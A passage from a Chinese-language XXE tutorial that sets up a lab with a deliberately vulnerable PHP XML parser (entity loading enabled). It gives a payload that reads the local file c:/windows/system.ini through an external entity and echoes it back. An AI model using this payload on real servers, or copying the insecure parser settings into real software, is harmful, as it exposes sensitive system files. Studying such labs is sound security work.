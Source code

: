 既然能读 dtd 那我们是不是能将路径换一换，换成敏感文件的路径，然后把敏感文件读出来？

### **实验一：有回显读本地敏感文件(Normal XXE)**

这个实验的攻击场景模拟的是在服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件

本地服务器上放上解析 XML 的 php 代码：

**示例代码：**

**xml.php**

```xml
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```

**payload:**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

**结果如下图：**

[![img](assets/1667437010861-cca72ef2-7c35-48fa-a4da-f81f616de04b.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/XXE回显读文件.png)此处输入图片的描述

但是因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利，**那么我么要是换成下面这个文件呢？**
